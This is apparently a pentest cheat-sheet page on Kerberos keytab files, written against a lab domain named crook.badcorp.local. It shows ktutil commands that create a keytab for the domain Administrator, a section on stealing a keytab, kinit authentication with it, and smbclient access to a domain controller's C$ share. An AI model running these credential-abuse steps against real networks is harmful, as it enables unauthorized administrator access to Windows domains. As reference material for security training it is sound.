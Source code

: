 # Keytab files

## Keytab files

{% hint style="info" %}
keytab = contains Kerberos Principal name and encrypted keys \(usage for script\). See crontab
{% endhint %}

### Create a keytab

```text
ktutil
addent -password -p Administrator@crook.badcorp.local -k 1 -e rc4-hmac
wkt /tmp/administrator.keytab
quit
```

### Stealing the keytab

![](../../../../../.gitbook/assets/image%20%28181%29.png)

#### Authenticate

```csharp
kinit Administrator@CROOK.BADCORP.LOCAL -k -t /tmp/admin.keytab 
```

![](../../../../../.gitbook/assets/image%20%28306%29.png)

#### Renew the Ticket

![](../../../../../.gitbook/assets/image%20%28139%29.png)

#### Use the ticket 

```text
smbclient -k -U CROOK\\Administrator //DC02.CROOK.BADCORP.LOCAL/C$
```

![](../../../../../.gitbook/assets/image%20%28214%29.png)

